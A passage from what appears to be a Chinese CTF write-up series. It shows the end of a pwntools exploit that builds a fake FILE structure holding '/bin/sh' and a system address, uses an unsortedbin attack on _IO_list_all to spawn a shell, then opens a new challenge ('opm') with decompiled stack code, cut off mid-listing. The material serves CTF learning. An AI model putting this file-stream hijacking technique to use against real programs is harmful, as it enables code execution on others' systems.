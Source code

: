 
    info()
    io.recvuntil('A'*0x40)
    heap = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x10
    print hex(leak)
    io.recvuntil(')')
    io.sendline('1')
    io.recvuntil(':')
    io.sendline('A'*0x40)
    
    for i in range(0x3,0x9):
        add(0x20,str(i)*0x20)
    vtable_addr = heap+0x248
    payload = 0x2c*p64(0)
        #Fake File_stream in smallbin[4]
    fake_stream = ""
    fake_stream = "/bin/sh\x00"+p64(0x61)
    fake_stream += p64(0)+p64(IO_list_all-0x10)
    fake_stream = fake_stream.ljust(0xa0,'\x00')
    fake_stream += p64(heap+0x240)
    fake_stream = fake_stream.ljust(0xc0,'\x00')
    fake_stream += p64(1)+2*p64(0)+p64(vtable_addr)
    payload += fake_stream
    payload += p64(2)
    payload += p64(3)
    payload += p64(system_addr)
    gdb.attach(io)
    edit(0,payload)
    gdb.attach(io)
        # Trigger UnsortedBin Attack
        # malloc_printerr==>libc_message==>abort==>IO_flush_all_lockp
    io.recvuntil('Your choice :')
    io.sendline(str(1))
    io.recvuntil('Size of page :')
    io.sendline(str(0x10))
    io.interactive()
***9.opm***
强网杯的一道题目当时没做出来。。。
看着像一个堆题目其实是道栈溢出题目，涉及到堆的知识比较少
唯一的技巧点在于巧妙地利用**局部写**

    int (__fastcall **add())(__int64 a1)
    {
      _QWORD *v0; // rbx
      __int64 v1; // rbx
      size_t v2; // rax
      __int64 v3; // rbx
      char s[128]; // [rsp+0h] [rbp-1A0h]
      __int64 addr_of_struct[16]; // [rsp+80h] [rbp-120h]
      __int64 addr_of_name[17]; // [rsp+100h] [rbp-A0h]
      unsigned __int64 canary; // [rsp+188h] [rbp-18h]
    